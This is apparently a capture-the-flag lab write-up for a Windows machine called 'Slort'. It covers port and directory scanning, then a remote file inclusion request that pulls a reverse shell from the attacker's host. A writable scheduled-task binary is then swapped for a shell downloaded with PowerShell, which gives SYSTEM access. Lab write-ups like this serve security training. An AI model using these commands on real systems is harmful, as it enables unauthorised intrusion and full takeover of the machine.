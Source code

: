 # Slort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.53 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 21:12 +08
Nmap scan report for 192.168.233.53
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Fail

Does not allow anonymous logins.

### RFI --> User Shell

Port 4443 and 8080 host the same service:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on the site and found a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.233.53:8080 -t 100                  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.233.53:8080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/30 21:18:11 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 345] [--> http://192.168.233.53:8080/img/]
/site                 (Status: 301) [Size: 346] [--> http://192.168.233.53:8080/site/]
<TRUNCATED>
```

The `/site` directory contained a basic corporate page, but the most interesting part was the URL:

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

This looks like it's vulnerable to a file inclusion exploit. I tested this and it is RFI for this case:

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

We can grab a PHP Reverse shell for Windows from this page:

{% embed url="https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php" %}

Afterwards, we just need to execute it:

```
$ curl http://192.168.233.53:8080/site/index.php?page=http://192.168.45.161/rev.php
```

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Cronjob --> SYSTEM Shell

The `C:\` directory contained a `Backup` folder that looked interesting:

```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

07/20/2020  07:08 AM    <DIR>          Backup
12/07/2019  02:14 AM    <DIR>          PerfLogs
05/04/2022  01:06 AM    <DIR>          Program Files
12/03/2021  09:22 AM    <DIR>          Program Files (x86)
12/03/2021  09:29 AM    <DIR>          Users
05/04/2022  01:52 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp

C:\Backup>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  07:08 AM    <DIR>          .
07/20/2020  07:08 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.EXE
```

`info.txt` basically told us what to do:

```
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>icacls TFTP.EXE
icacls TFTP.EXE
TFTP.EXE BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

We can modify the `TFTP.EXE` file and replace it with our own reverse shell to get a SYSTEM shell after the scheduled task executes.

```
C:\Backup>move TFTP.EXE old.exe
move TFTP.EXE old.exe
        1 file(s) moved.

C:\Backup>powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE 
powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE
```

After a few minutes, the task would execute and give us a administrator reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (152) (6).png" alt=""><figcaption></figcaption></figure>

Rooted!
